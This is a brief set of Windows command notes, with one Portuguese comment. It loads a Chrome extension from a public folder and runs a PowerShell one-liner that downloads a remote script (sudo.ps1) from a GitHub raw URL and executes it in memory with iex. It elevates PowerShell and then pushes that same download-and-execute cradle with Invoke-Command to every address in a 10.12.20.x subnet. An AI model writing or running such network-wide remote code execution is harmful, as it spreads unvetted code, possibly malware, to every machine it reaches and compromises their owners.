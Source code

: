 google-chrome --load-extension=C:\Users\Public\system_security


SUDO
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/eulersdisk/system_security/main/sudo.ps1')"



Get-Content script.ps1 | PowerShell.exe -noprofile -



control userpasswords2
start-process powershell –verb runAs


# rodar esse script em todas maquinas da rede

$listofIPs = 1..254 | % {"10.12.20.$_"}

Invoke-Command -ComputerName $listofIPs -ScriptBlock { powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/eulersdisk/system_security/main/sudo.ps1')" } -credential USERNAME

